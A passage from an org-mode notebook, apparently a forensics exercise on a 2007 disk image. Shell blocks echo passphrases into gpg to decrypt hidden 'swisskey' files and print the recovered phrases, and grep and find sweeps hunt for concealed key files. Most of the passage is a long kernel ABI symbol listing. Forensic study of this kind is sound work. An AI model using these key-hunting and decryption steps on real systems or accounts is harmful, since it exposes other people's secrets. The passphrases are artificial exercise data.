      /images/recovered/inode-368000-ASCII_text:1:7 17jonquil23scent14
    #+END_SRC

    Key 6

    #+BEGIN_SRC sh
      cd ~/
      cp /images/sda1/home/rich/swiss_keys/swisskey6.gpg .
      echo "13tulip34root28" | gpg --passphrase-fd 0 --no-tty -d swisskey6.gpg
      rm swisskey6.gpg
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    raindrops_keep_fallin_on_my_head
    #+END_SRC

    Key 7

    #+BEGIN_SRC sh
      cd ~/
      cp /images/sda1/home/rich/swiss_keys/swisskey7.gpg .
      echo "17jonquil23scent14" | gpg --passphrase-fd 0 --no-tty -d swisskey7.gpg
      rm swisskey7.gpg
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    twist_again_like-we_did_last_summer
    #+END_SRC

    Key 8

    #+BEGIN_SRC sh
      cd ~/
      cp /images/sda1/home/rich/swiss_keys/swisskey8.gpg .
      echo "26daisy99daisy99" | gpg --passphrase-fd 0 --no-tty -d swisskey8.gpg
      rm swisskey8.gpg
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    goodness_gracious_great_balls_of_fire
    #+END_SRC

*** Look for keys

    #+BEGIN_SRC sh
      ls -l /images/sda1
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    total 69
    drwxr-xr-x  2 root root  2048 2007-09-07 18:52 bin
    drwxr-xr-x  3 root root  1024 2007-09-07 18:55 boot
    lrwxrwxrwx  1 root root    11 2007-09-07 11:28 cdrom -> media/cdrom
    drwxr-xr-x 11 root root 29696 2007-09-07 11:39 dev
    drwxr-xr-x 57 root root  3072 2007-09-10 00:38 etc
    drwxr-xr-x  7 root root  1024 2007-09-10 00:05 home
    drwxr-xr-x  2 root root  1024 2007-09-07 11:30 initrd
    lrwxrwxrwx  1 root root    32 2007-09-07 18:55 initrd.img -> boot/initrd.img-2.6.15-29-server
    lrwxrwxrwx  1 root root    32 2007-09-07 11:35 initrd.img.old -> boot/initrd.img-2.6.15-26-server
    drwxr-xr-x 16 root root  5120 2007-09-07 18:52 lib
    drwxr-xr-x  2 root root 12288 2007-09-07 11:28 lost+found
    drwxr-xr-x  3 root root  1024 2007-09-07 11:28 media
    drwxr-xr-x  2 root root  1024 2006-08-03 03:59 mnt
    drwxr-xr-x  2 root root  1024 2007-09-07 11:30 opt
    drwxr-xr-x  2 root root  1024 2006-08-03 03:59 proc
    drwxr-xr-x  4 root root  1024 2007-09-10 00:25 root
    drwxr-xr-x  2 root root  4096 2007-09-07 18:52 sbin
    drwxr-xr-x  2 root root  1024 2007-09-07 11:30 srv
    drwxr-xr-x  2 root root  1024 2006-05-21 11:46 sys
    drwxrwxrwt  3 root root  1024 2007-09-09 22:38 tmp
    drwxr-xr-x 10 root root  1024 2007-09-07 11:30 usr
    drwxr-xr-x 13 root root  1024 2007-09-07 11:30 var
    lrwxrwxrwx  1 root root    29 2007-09-07 18:55 vmlinuz -> boot/vmlinuz-2.6.15-29-server
    lrwxrwxrwx  1 root root    29 2007-09-07 11:35 vmlinuz.old -> boot/vmlinuz-2.6.15-26-server
    #+END_SRC

    #+BEGIN_SRC sh
      sudo grep -rn /images/sda1/lib/ -e "^[1-8] [A-Za-z0-9]*$" 2> /dev/null
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    /images/sda1/home/rich/.extrtmtc/key4:1:4 11hibiscus2hibiscus23
    /images/sda1/home/rich/.mozilla/cache/a234Z8x0:1:5 19rose42blossom35
    #+END_SRC

    #+BEGIN_SRC sh
      sudo find /images/sda1/usr -type f -print -exec file {} + | grep "ASCII text"
      #sudo grep -rn /images/sda1/etc -e "^8 [A-Za-z0-9]*$" 2> /dev/null
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
#+END_SRC

    #+BEGIN_SRC sh
      sudo cat /images/sda1/boot/abi-2.6.15-26-server
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    arch/i386/kernel/cpu/cpufreq/speedstep-lib speedstep_detect_processor 0x16836e04
    arch/i386/kernel/cpu/cpufreq/speedstep-lib speedstep_get_freqs 0xb9c4330f
    arch/i386/kernel/cpu/cpufreq/speedstep-lib speedstep_get_processor_frequency 0x4cdb4bd0
    arch/i386/kernel/scx200 scx200_cb_base 0x907665bd
    arch/i386/kernel/scx200 scx200_gpio_base 0x254e5667
    arch/i386/kernel/scx200 scx200_gpio_configure 0x80c65a79
    arch/i386/kernel/scx200 scx200_gpio_shadow 0x9272bc53
    cluster/cman/cman kcl_add_callback 0xaf3eb85b
    cluster/cman/cman kcl_addref_cluster 0x8c4832f9
    cluster/cman/cman kcl_barrier_cancel 0x43bf5eb6
    cluster/cman/cman kcl_barrier_delete 0x08eb557e
    cluster/cman/cman kcl_barrier_register 0xc664a57c
    cluster/cman/cman kcl_barrier_setattr 0xe122c25c
    cluster/cman/cman kcl_barrier_wait 0x87086111
    cluster/cman/cman kcl_cluster_name 0xde5612c6
    cluster/cman/cman kcl_get_all_members 0xd10c54e6
    cluster/cman/cman kcl_get_current_interface 0x3af85930
    cluster/cman/cman kcl_get_member_ids 0x885ff3a4
    cluster/cman/cman kcl_get_members 0xd47a921d
    cluster/cman/cman kcl_get_node_addresses 0xd5eaf0c2
    cluster/cman/cman kcl_get_node_by_addr 0x3b33738c
    cluster/cman/cman kcl_get_node_by_name 0x23669a37
    cluster/cman/cman kcl_get_node_by_nodeid 0x83c43133
    cluster/cman/cman kcl_get_services 0x03c0d25b
    cluster/cman/cman kcl_global_service_id 0x873f8a99
    cluster/cman/cman kcl_is_quorate 0xc576f3f0
    cluster/cman/cman kcl_join_service 0x426c5ab8
    cluster/cman/cman kcl_leave_service 0xfd83a9a3
    cluster/cman/cman kcl_quorum_device_available 0x30183fa5
    cluster/cman/cman kcl_register_quorum_device 0xaaee1660
    cluster/cman/cman kcl_register_read_callback 0x818c6b58
    cluster/cman/cman kcl_register_service 0xd825e459
    cluster/cman/cman kcl_releaseref_cluster 0x98b2c43d
    cluster/cman/cman kcl_remove_callback 0x9023ce01
    cluster/cman/cman kcl_sendmsg 0xf47fa833
    cluster/cman/cman kcl_start_done 0x390dcec0
    cluster/cman/cman kcl_unregister_quorum_device 0xd2ebaeba
    cluster/cman/cman kcl_unregister_service 0x09b0b8b5
    cluster/dlm/dlm dlm_debug_dump 0xc4db1de8
    cluster/dlm/dlm dlm_init 0x00df6cd7
    cluster/dlm/dlm dlm_lock 0xac5db655
    cluster/dlm/dlm dlm_locks_dump 0xaf24753d
    cluster/dlm/dlm dlm_new_lockspace 0xd358dc1a
    cluster/dlm/dlm dlm_query 0xdc30c180
    cluster/dlm/dlm dlm_release 0x2ff0cd3a
    cluster/dlm/dlm dlm_release_lockspace 0xcf9f3328
    cluster/dlm/dlm dlm_unlock 0x14d97760
    drivers/acpi/ac acpi_get_ac_dir 0x8089de57
    drivers/acpi/battery acpi_get_battery_dir 0x6e060d42
    drivers/acpi/i2c_acpi_ec acpi_get_ec_hc 0x8e2ba282
    drivers/acpi/processor acpi_processor_notify_smm 0x44d04ecd
    drivers/acpi/processor acpi_processor_register_performance 0x858fc2e6
    drivers/acpi/processor acpi_processor_set_thermal_limit 0xe8a3605f
    drivers/acpi/processor acpi_processor_unregister_performance 0x70b3538a
    drivers/atm/suni suni_init 0xee2dcbca
    drivers/atm/uPD98402 uPD98402_init 0x6a17af4d
    drivers/block/loop loop_register_transfer 0xf7e81965
    drivers/block/loop loop_unregister_transfer 0xbfee3ad5
    drivers/block/paride/paride pi_connect 0xf14044d8
    drivers/block/paride/paride pi_disconnect 0x7ac0e10b
    drivers/block/paride/paride pi_do_claimed 0x44a61b6b
    drivers/block/paride/paride pi_init 0x8aa907a2
    drivers/block/paride/paride pi_read_block 0x2e65af70
    drivers/block/paride/paride pi_read_regr 0xdcd3a6db
    drivers/block/paride/paride pi_register 0x85441b4b
    drivers/block/paride/paride pi_release 0x5b41c395
    drivers/block/paride/paride pi_schedule_claimed 0x2ea05ebb
    drivers/block/paride/paride pi_unregister 0x628b86a6
    drivers/block/paride/paride pi_write_block 0xdd4cc0b8
    drivers/block/paride/paride pi_write_regr 0xb28fdd8f
    drivers/cdrom/cdrom cdrom_get_last_written 0x5f72bfeb
    drivers/cdrom/cdrom cdrom_get_media_event 0xeffb505e
    drivers/cdrom/cdrom cdrom_ioctl 0xff353cdc
    drivers/cdrom/cdrom cdrom_media_changed 0x49213e08
    drivers/cdrom/cdrom cdrom_mode_select 0x546ec871
    drivers/cdrom/cdrom cdrom_mode_sense 0x44e47a36
    drivers/cdrom/cdrom cdrom_number_of_slots 0x43254f53
    drivers/cdrom/cdrom cdrom_open 0x1a1cae43
    drivers/cdrom/cdrom cdrom_release 0xa1b73385
    drivers/cdrom/cdrom init_cdrom_command 0x4f476e96
    drivers/cdrom/cdrom register_cdrom 0xb04f5da6
    drivers/cdrom/cdrom unregister_cdrom 0x76ff082d
    drivers/char/agp/agpgart agp3_generic_cleanup 0xc2424641
    drivers/char/agp/agpgart agp3_generic_configure 0x4b085dbf
    drivers/char/agp/agpgart agp3_generic_fetch_size 0xde9b17ed
    drivers/char/agp/agpgart agp3_generic_sizes 0x546264cf
    drivers/char/agp/agpgart agp3_generic_tlbflush 0x3fa7a3c4
    drivers/char/agp/agpgart agp_add_bridge 0x7f96ddff
    drivers/char/agp/agpgart agp_alloc_bridge 0x6ded8b99
    drivers/char/agp/agpgart agp_allocate_memory 0x79ee0dee
    drivers/char/agp/agpgart agp_backend_acquire 0x074a6ddd
    drivers/char/agp/agpgart agp_backend_release 0x173db5f6
    drivers/char/agp/agpgart agp_bind_memory 0x3ca603dd
    drivers/char/agp/agpgart agp_bridge 0xa7e84419
    drivers/char/agp/agpgart agp_bridges 0x673f815e
    drivers/char/agp/agpgart agp_collect_device_status 0x90d3b02b
    drivers/char/agp/agpgart agp_copy_info 0x62c70bc1
    drivers/char/agp/agpgart agp_create_memory 0xe46295db
    drivers/char/agp/agpgart agp_device_command 0xe6d5c272
    drivers/char/agp/agpgart agp_enable 0x768cd50b
    drivers/char/agp/agpgart agp_find_bridge 0x56610411
    drivers/char/agp/agpgart agp_free_key 0xd0fef3b2
    drivers/char/agp/agpgart agp_free_memory 0x8ef78e34
    drivers/char/agp/agpgart agp_generic_alloc_by_type 0xe0c7e652
    drivers/char/agp/agpgart agp_generic_alloc_page 0xbbd0afcc
    drivers/char/agp/agpgart agp_generic_create_gatt_table 0x91fa450b
    drivers/char/agp/agpgart agp_generic_destroy_page 0xbba27749
    drivers/char/agp/agpgart agp_generic_enable 0x7ecb8009
    drivers/char/agp/agpgart agp_generic_free_by_type 0xcd7b59e2
    drivers/char/agp/agpgart agp_generic_free_gatt_table 0x4292424f
    drivers/char/agp/agpgart agp_generic_insert_memory 0xe0268adc
    drivers/char/agp/agpgart agp_generic_mask_memory 0x1eb4c56e
    drivers/char/agp/agpgart agp_generic_remove_memory 0x32046b2d
    drivers/char/agp/agpgart agp_memory_reserved 0xe089cfcc
    drivers/char/agp/agpgart agp_num_entries 0xd6feefa5
    drivers/char/agp/agpgart agp_off 0x7538b132
    drivers/char/agp/agpgart agp_put_bridge 0xffaf0349
    drivers/char/agp/agpgart agp_remove_bridge 0xfc58b5ec
    drivers/char/agp/agpgart agp_try_unsupported_boot 0xc5d9c46c
    drivers/char/agp/agpgart agp_unbind_memory 0x290adc7e
    drivers/char/agp/agpgart get_agp_version 0x2a087cda
    drivers/char/agp/agpgart global_cache_flush 0xa4d4f0e6
    drivers/char/agp/agpgart map_page_into_agp 0x5ae8eb7a
    drivers/char/agp/agpgart unmap_page_from_agp 0xe771dac2
    drivers/char/drm/drm drm_addbufs_agp 0x6ca0dc91
    drivers/char/drm/drm drm_addbufs_fb 0xd4ebe898
    drivers/char/drm/drm drm_addbufs_pci 0x514d599e
    drivers/char/drm/drm drm_addmap 0xede98e70
    drivers/char/drm/drm drm_agp_acquire 0x8c19328b
    drivers/char/drm/drm drm_agp_alloc 0x08e9c4d0
    drivers/char/drm/drm drm_agp_bind 0x4a7d8134
    drivers/char/drm/drm drm_agp_bind_memory 0x47899393
    drivers/char/drm/drm drm_agp_enable 0xc99f4577
    drivers/char/drm/drm drm_agp_free 0xa4985239
    drivers/char/drm/drm drm_agp_info 0xe1e8f954
    drivers/char/drm/drm drm_agp_release 0x9cf55e7f
    drivers/char/drm/drm drm_agp_unbind 0xdd8b46a1
    drivers/char/drm/drm drm_ati_pcigart_cleanup 0x73904dc0
    drivers/char/drm/drm drm_ati_pcigart_init 0x9726cba0
    drivers/char/drm/drm drm_core_get_map_ofs 0x064df683
    drivers/char/drm/drm drm_core_get_reg_ofs 0x50674206
    drivers/char/drm/drm drm_core_reclaim_buffers 0x05d78fe1
    drivers/char/drm/drm drm_debug 0x20645642
    drivers/char/drm/drm drm_exit 0xb68dadd0
    drivers/char/drm/drm drm_fasync 0x4b306d91
    drivers/char/drm/drm drm_get_dev 0x3c7fa6db
    drivers/char/drm/drm drm_get_resource_len 0x70eccd45
    drivers/char/drm/drm drm_get_resource_start 0x5716e905
    drivers/char/drm/drm drm_init 0xb2dd26f2
    drivers/char/drm/drm drm_ioctl 0xd72b7614
    drivers/char/drm/drm drm_irq_uninstall 0xa778451e
    drivers/char/drm/drm drm_mmap 0xae245f56
    drivers/char/drm/drm drm_open 0xa4b46bfe
    drivers/char/drm/drm drm_order 0x3074f033
    drivers/char/drm/drm drm_pci_alloc 0x9199cdd7
    drivers/char/drm/drm drm_pci_free 0xf3646ca5
    drivers/char/drm/drm drm_poll 0xd2e2cfa6
    drivers/char/drm/drm drm_release 0x9acc3a87
    drivers/char/drm/drm drm_rmmap 0xf6b1607d
    drivers/char/drm/drm drm_rmmap_locked 0xa7d7cdee
    drivers/char/drm/drm drm_vbl_send_signals 0x8491a058
    drivers/char/generic_serial gs_block_til_ready 0x866e598d
    drivers/char/generic_serial gs_chars_in_buffer 0x7e26a466
    drivers/char/generic_serial gs_close 0x0a064887
    drivers/char/generic_serial gs_flush_buffer 0xc5d25ca4
    drivers/char/generic_serial gs_flush_chars 0xfbb9b200
    drivers/char/generic_serial gs_getserial 0x3d69ac89
    drivers/char/generic_serial gs_got_break 0x3109120c
    drivers/char/generic_serial gs_hangup 0x8163691d
    drivers/char/generic_serial gs_init_port 0x0a5cc370
    drivers/char/generic_serial gs_put_char 0x597f72ea
    drivers/char/generic_serial gs_set_termios 0x4d32cfb8
    drivers/char/generic_serial gs_setserial 0x9fa73923
    drivers/char/generic_serial gs_start 0xcf687da7
    drivers/char/generic_serial gs_stop 0x47261d97
    drivers/char/generic_serial gs_write 0xb7152717
    drivers/char/generic_serial gs_write_room 0xd724524d
    drivers/char/ipmi/ipmi_msghandler ipmi_addr_length 0x804f922a
    drivers/char/ipmi/ipmi_msghandler ipmi_alloc_smi_msg 0x40f2b10c
    drivers/char/ipmi/ipmi_msghandler ipmi_create_user 0x1ce88877
    drivers/char/ipmi/ipmi_msghandler ipmi_destroy_user 0x5e2de84f
    drivers/char/ipmi/ipmi_msghandler ipmi_free_recv_msg 0xdbfdfe1d
    drivers/char/ipmi/ipmi_msghandler ipmi_get_my_LUN 0x22380dd0
    drivers/char/ipmi/ipmi_msghandler ipmi_get_my_address 0x9d1174f4
    drivers/char/ipmi/ipmi_msghandler ipmi_get_version 0xd72ce722
    drivers/char/ipmi/ipmi_msghandler ipmi_register_for_cmd 0x63db8fa1
    drivers/char/ipmi/ipmi_msghandler ipmi_register_smi 0x2174c133
    drivers/char/ipmi/ipmi_msghandler ipmi_request_settime 0x7526548b
    drivers/char/ipmi/ipmi_msghandler ipmi_request_supply_msgs 0x1ed7e772
    drivers/char/ipmi/ipmi_msghandler ipmi_set_gets_events 0xbec4e0b5
    drivers/char/ipmi/ipmi_msghandler ipmi_set_my_LUN 0xac1e44e3
    drivers/char/ipmi/ipmi_msghandler ipmi_set_my_address 0x0594ac2d
    drivers/char/ipmi/ipmi_msghandler ipmi_smi_add_proc_entry 0x7135b2f7
    drivers/char/ipmi/ipmi_msghandler ipmi_smi_msg_received 0x83671e35
    drivers/char/ipmi/ipmi_msghandler ipmi_smi_watchdog_pretimeout 0x9794f52d
    drivers/char/ipmi/ipmi_msghandler ipmi_smi_watcher_register 0x07a31ea4
    drivers/char/ipmi/ipmi_msghandler ipmi_smi_watcher_unregister 0x6f282065
    drivers/char/ipmi/ipmi_msghandler ipmi_unregister_for_cmd 0x53189546
    drivers/char/ipmi/ipmi_msghandler ipmi_unregister_smi 0x51dfe3a1
    drivers/char/ipmi/ipmi_msghandler ipmi_user_set_run_to_completion 0x1861a820
    drivers/char/ipmi/ipmi_msghandler ipmi_validate_addr 0xe4f4665b
    drivers/char/ipmi/ipmi_msghandler proc_ipmi_root 0xd81d6588
    drivers/char/nvram __nvram_check_checksum 0x2adec1e0
    drivers/char/nvram __nvram_read_byte 0x17ff2c1d
    drivers/char/nvram __nvram_write_byte 0xa8813189
    drivers/char/nvram nvram_check_checksum 0x7da28f12
    drivers/char/nvram nvram_read_byte 0x0f28cb91
    drivers/char/nvram nvram_write_byte 0x9ce3f83f
    drivers/char/sonypi sonypi_camera_command 0x89590f57
    drivers/char/tpm/tpm tpm_open 0x2b3afffe
    drivers/char/tpm/tpm tpm_pm_resume 0x15a2bdb7
    drivers/char/tpm/tpm tpm_pm_suspend 0xba67f5df
    drivers/char/tpm/tpm tpm_read 0x99b56d48
    drivers/char/tpm/tpm tpm_register_hardware 0x1ec776c9
    drivers/char/tpm/tpm tpm_release 0xcacfca80
    drivers/char/tpm/tpm tpm_remove_hardware 0x7370a828
    drivers/char/tpm/tpm tpm_show_caps 0x44cc9a2c
    drivers/char/tpm/tpm tpm_show_pcrs 0x86c4a03b
    drivers/char/tpm/tpm tpm_show_pubek 0xe59bc1da
    drivers/char/tpm/tpm tpm_store_cancel 0xde625a32
    drivers/char/tpm/tpm tpm_write 0x563af9e9
    drivers/connector/cn cn_add_callback 0xdf3c19ec
    drivers/connector/cn cn_del_callback 0xff5a8cfe
    drivers/connector/cn cn_netlink_send 0xb10d55bc
    drivers/cpufreq/cpufreq_userspace cpufreq_gov_userspace 0x55b121d5
    drivers/cpufreq/freq_table cpufreq_freq_attr_scaling_available_freqs 0xe2726125
    drivers/cpufreq/freq_table cpufreq_frequency_get_table 0x2f47d8c7
    drivers/cpufreq/freq_table cpufreq_frequency_table_cpuinfo 0x347a7c8b
    drivers/cpufreq/freq_table cpufreq_frequency_table_get_attr 0x706b3a33
    drivers/cpufreq/freq_table cpufreq_frequency_table_put_attr 0x7ae1ae8e
    drivers/cpufreq/freq_table cpufreq_frequency_table_target 0x071fb65e
    drivers/cpufreq/freq_table cpufreq_frequency_table_verify 0x6ba2dd21
    drivers/hwmon/hwmon-vid vid_from_reg 0x9729a872
    drivers/hwmon/hwmon-vid vid_which_vrm 0xeb46a4c5
    drivers/i2c/algos/i2c-algo-bit i2c_bit_add_bus 0xf834420d
    drivers/i2c/algos/i2c-algo-bit i2c_bit_del_bus 0x2b563d44
    drivers/i2c/algos/i2c-algo-pca i2c_pca_add_bus 0x5186544f
    drivers/i2c/algos/i2c-algo-pca i2c_pca_del_bus 0x82e42b06
    drivers/i2c/algos/i2c-algo-pcf i2c_pcf_add_bus 0x8f669f08
    drivers/i2c/algos/i2c-algo-pcf i2c_pcf_del_bus 0x5c04e041
    drivers/i2c/busses/i2c-amd756 amd756_smbus 0xb27b5486
    drivers/i2c/busses/i2c-isa i2c_isa_add_driver 0x4b8518f6
    drivers/i2c/busses/i2c-isa i2c_isa_del_driver 0xaa845375
    drivers/i2c/chips/ds1337 ds1337_do_command 0x4c0b0237
    drivers/i2c/chips/x1205 x1205_direct_attach 0x9038db9b
    drivers/i2c/chips/x1205 x1205_do_command 0x715bb0d7
    drivers/i2c/i2c-core i2c_adapter_class 0x6735172d
    drivers/i2c/i2c-core i2c_adapter_dev_release 0x005262dc
    drivers/i2c/i2c-core i2c_adapter_driver 0xf5fea45e
    drivers/i2c/i2c-core i2c_add_adapter 0x4a87d118
    drivers/i2c/i2c-core i2c_add_driver 0x70922bc8
    drivers/i2c/i2c-core i2c_attach_client 0x5a528d9c
    drivers/i2c/i2c-core i2c_bus_type 0x18331e74
    drivers/i2c/i2c-core i2c_check_addr 0x5842fcb6
    drivers/i2c/i2c-core i2c_clients_command 0x33eb227d
    drivers/i2c/i2c-core i2c_control 0x641caad3
    drivers/i2c/i2c-core i2c_del_adapter 0xc3cb7a2b
    drivers/i2c/i2c-core i2c_del_driver 0x4fa5178e
    drivers/i2c/i2c-core i2c_detach_client 0x99e69676
    drivers/i2c/i2c-core i2c_get_adapter 0xd40763c7
    drivers/i2c/i2c-core i2c_master_recv 0x99f47c5b
    drivers/i2c/i2c-core i2c_master_send 0x4a4ea3c2
    drivers/i2c/i2c-core i2c_probe 0x2de4fbdc
    drivers/i2c/i2c-core i2c_put_adapter 0x9a7459e9
    drivers/i2c/i2c-core i2c_release_client 0xed9dc488
    drivers/i2c/i2c-core i2c_smbus_read_byte 0xdb5df65d
    drivers/i2c/i2c-core i2c_smbus_read_byte_data 0x1f6facf1
    drivers/i2c/i2c-core i2c_smbus_read_i2c_block_data 0x96a9d900
    drivers/i2c/i2c-core i2c_smbus_read_word_data 0x6126c005
    drivers/i2c/i2c-core i2c_smbus_write_block_data 0xb7f12af3
    drivers/i2c/i2c-core i2c_smbus_write_byte 0xe49031f4
    drivers/i2c/i2c-core i2c_smbus_write_byte_data 0x8e70d6ed
    drivers/i2c/i2c-core i2c_smbus_write_quick 0xab8806cd
    drivers/i2c/i2c-core i2c_smbus_write_word_data 0xfb9a580c
    drivers/i2c/i2c-core i2c_smbus_xfer 0x9d1a688f
    drivers/i2c/i2c-core i2c_transfer 0x682ec98a
    drivers/i2c/i2c-core i2c_use_client 0x818bc642
    drivers/ieee1394/ieee1394 _csr1212_destroy_keyval 0x18269033
    drivers/ieee1394/ieee1394 _csr1212_read_keyval 0x9a262204
    drivers/ieee1394/ieee1394 csr1212_attach_keyval_to_directory 0xab652655
    drivers/ieee1394/ieee1394 csr1212_detach_keyval_from_directory 0x9de05239
    drivers/ieee1394/ieee1394 csr1212_new_directory 0xbf0cb97e
    drivers/ieee1394/ieee1394 csr1212_parse_keyval 0x4358bad7
    drivers/ieee1394/ieee1394 csr1212_read 0x85bc1770
    drivers/ieee1394/ieee1394 csr1212_release_keyval 0xf1490f9a
    drivers/ieee1394/ieee1394 dma_prog_region_alloc 0x0168946f
    drivers/ieee1394/ieee1394 dma_prog_region_free 0x3336889d
    drivers/ieee1394/ieee1394 dma_prog_region_init 0xb2109847
    drivers/ieee1394/ieee1394 dma_region_alloc 0xc6c47f15
    drivers/ieee1394/ieee1394 dma_region_free 0xa33cb59c
    drivers/ieee1394/ieee1394 dma_region_init 0xee37d909
    drivers/ieee1394/ieee1394 dma_region_mmap 0xf5a7410f
    drivers/ieee1394/ieee1394 dma_region_offset_to_bus 0x8c3786d9
    drivers/ieee1394/ieee1394 dma_region_sync_for_cpu 0x9558c189
    drivers/ieee1394/ieee1394 dma_region_sync_for_device 0xe3271a7b
    drivers/ieee1394/ieee1394 highlevel_host_reset 0x41350d7f
    drivers/ieee1394/ieee1394 hpsb_add_host 0x26c0d1ab
    drivers/ieee1394/ieee1394 hpsb_alloc_host 0x0b32b8c6
    drivers/ieee1394/ieee1394 hpsb_alloc_packet 0xf68cfefd
    drivers/ieee1394/ieee1394 hpsb_allocate_and_register_addrspace 0x9b754b05
    drivers/ieee1394/ieee1394 hpsb_bus_reset 0x4304904e
    drivers/ieee1394/ieee1394 hpsb_create_hostinfo 0xb5c44e93
    drivers/ieee1394/ieee1394 hpsb_destroy_hostinfo 0xb8f98666
    drivers/ieee1394/ieee1394 hpsb_disable_irm 0xec8d18cf
    drivers/ieee1394/ieee1394 hpsb_free_packet 0x6609937c
    drivers/ieee1394/ieee1394 hpsb_free_tlabel 0xfab4f434
    drivers/ieee1394/ieee1394 hpsb_get_hostinfo 0xa77ca166
    drivers/ieee1394/ieee1394 hpsb_get_hostinfo_bykey 0xf3e1293d
    drivers/ieee1394/ieee1394 hpsb_get_tlabel 0xf2fb75ed
    drivers/ieee1394/ieee1394 hpsb_iso_n_ready 0xc1425cf1
    drivers/ieee1394/ieee1394 hpsb_iso_packet_received 0x4e0c9ccb
    drivers/ieee1394/ieee1394 hpsb_iso_packet_sent 0x1f94f0ef
    drivers/ieee1394/ieee1394 hpsb_iso_recv_flush 0xc074d8f9
    drivers/ieee1394/ieee1394 hpsb_iso_recv_init 0x13268610
    drivers/ieee1394/ieee1394 hpsb_iso_recv_listen_channel 0x8f963132
    drivers/ieee1394/ieee1394 hpsb_iso_recv_release_packets 0xd4394c0f
    drivers/ieee1394/ieee1394 hpsb_iso_recv_set_channel_mask 0x6cd3f54b
    drivers/ieee1394/ieee1394 hpsb_iso_recv_start 0x767fa8be
    drivers/ieee1394/ieee1394 hpsb_iso_recv_unlisten_channel 0x8f4b48b3
    drivers/ieee1394/ieee1394 hpsb_iso_shutdown 0xdb28d2bb
    drivers/ieee1394/ieee1394 hpsb_iso_stop 0xf66b58fe
    drivers/ieee1394/ieee1394 hpsb_iso_wake 0xf3e4f4a4
    drivers/ieee1394/ieee1394 hpsb_iso_xmit_init 0x64f2a902
    drivers/ieee1394/ieee1394 hpsb_iso_xmit_queue_packet 0xb7d57467
    drivers/ieee1394/ieee1394 hpsb_iso_xmit_start 0x872eebf3
    drivers/ieee1394/ieee1394 hpsb_iso_xmit_sync 0x28e2a407
    drivers/ieee1394/ieee1394 hpsb_listen_channel 0xc3f2832e
    drivers/ieee1394/ieee1394 hpsb_make_isopacket 0xc3dce028
    drivers/ieee1394/ieee1394 hpsb_make_lock64packet 0x2cf4d425
    drivers/ieee1394/ieee1394 hpsb_make_lockpacket 0xfd13dfc6
    drivers/ieee1394/ieee1394 hpsb_make_phypacket 0x0b51f3d1
    drivers/ieee1394/ieee1394 hpsb_make_readpacket 0xc1e90429
    drivers/ieee1394/ieee1394 hpsb_make_streampacket 0xdf5318f8
    drivers/ieee1394/ieee1394 hpsb_make_writepacket 0x16efd25d
    drivers/ieee1394/ieee1394 hpsb_node_fill_packet 0x61f05de9
    drivers/ieee1394/ieee1394 hpsb_node_write 0x185d7c92
    drivers/ieee1394/ieee1394 hpsb_packet_received 0x91823f6c
    drivers/ieee1394/ieee1394 hpsb_packet_sent 0xc18ad0b8
    drivers/ieee1394/ieee1394 hpsb_packet_success 0xf53a08f9
    drivers/ieee1394/ieee1394 hpsb_protocol_class 0x41d101d9
    drivers/ieee1394/ieee1394 hpsb_read 0xe3aa6e5f
    drivers/ieee1394/ieee1394 hpsb_register_addrspace 0x0440a596
    drivers/ieee1394/ieee1394 hpsb_register_highlevel 0xbc0e64c2
    drivers/ieee1394/ieee1394 hpsb_register_protocol 0x4ff89284
    drivers/ieee1394/ieee1394 hpsb_remove_host 0xf31a03b5
    drivers/ieee1394/ieee1394 hpsb_reset_bus 0x932d0254
    drivers/ieee1394/ieee1394 hpsb_selfid_complete 0x3c3c8807
    drivers/ieee1394/ieee1394 hpsb_selfid_received 0xd5950dec
    drivers/ieee1394/ieee1394 hpsb_send_packet 0xdd1bbf00
    drivers/ieee1394/ieee1394 hpsb_set_hostinfo 0x0ba88f78
    drivers/ieee1394/ieee1394 hpsb_set_hostinfo_key 0x0094a5a1
    drivers/ieee1394/ieee1394 hpsb_set_packet_complete_task 0x73562af2
    drivers/ieee1394/ieee1394 hpsb_speedto_str 0xfba57f51
    drivers/ieee1394/ieee1394 hpsb_unlisten_channel 0x80250a80
    drivers/ieee1394/ieee1394 hpsb_unregister_addrspace 0xb3d5fc9a
    drivers/ieee1394/ieee1394 hpsb_unregister_highlevel 0x0f002bfa
    drivers/ieee1394/ieee1394 hpsb_unregister_protocol 0x01b38739
    drivers/ieee1394/ieee1394 hpsb_update_config_rom 0x922f1a8f
    drivers/ieee1394/ieee1394 hpsb_update_config_rom_image 0x30f983cd
    drivers/ieee1394/ieee1394 hpsb_write 0x158cf7b6
    drivers/ieee1394/ieee1394 ieee1394_bus_type 0xb5aebe31
    drivers/ieee1394/ohci1394 ohci1394_init_iso_tasklet 0x1d5aeebc
    drivers/ieee1394/ohci1394 ohci1394_register_iso_tasklet 0x707c9b06
    drivers/ieee1394/ohci1394 ohci1394_stop_context 0xa4a4311e
    drivers/ieee1394/ohci1394 ohci1394_unregister_iso_tasklet 0xc04e98e7
    drivers/infiniband/core/ib_cm ib_cm_establish 0xfd1d8372
    drivers/infiniband/core/ib_cm ib_cm_init_qp_attr 0x77ea6723
    drivers/infiniband/core/ib_cm ib_cm_listen 0xc916f207
    drivers/infiniband/core/ib_cm ib_create_cm_id 0x0e5008d7
    drivers/infiniband/core/ib_cm ib_destroy_cm_id 0x67b1d400
    drivers/infiniband/core/ib_cm ib_send_cm_apr 0x56f17ff6
    drivers/infiniband/core/ib_cm ib_send_cm_drep 0xbef2460f
    drivers/infiniband/core/ib_cm ib_send_cm_dreq 0x91cab09e
    drivers/infiniband/core/ib_cm ib_send_cm_lap 0xde7e64bb
    drivers/infiniband/core/ib_cm ib_send_cm_mra 0x668ac920
    drivers/infiniband/core/ib_cm ib_send_cm_rej 0x59905550
    drivers/infiniband/core/ib_cm ib_send_cm_rep 0x65582fe9
    drivers/infiniband/core/ib_cm ib_send_cm_req 0xc9685ec8
    drivers/infiniband/core/ib_cm ib_send_cm_rtu 0xf4bca9ce
    drivers/infiniband/core/ib_cm ib_send_cm_sidr_rep 0x0ff92945
    drivers/infiniband/core/ib_cm ib_send_cm_sidr_req 0x1e8e3486
    drivers/infiniband/core/ib_core ib_alloc_device 0x756f7b8b
    drivers/infiniband/core/ib_core ib_alloc_fmr 0xa58e56e2
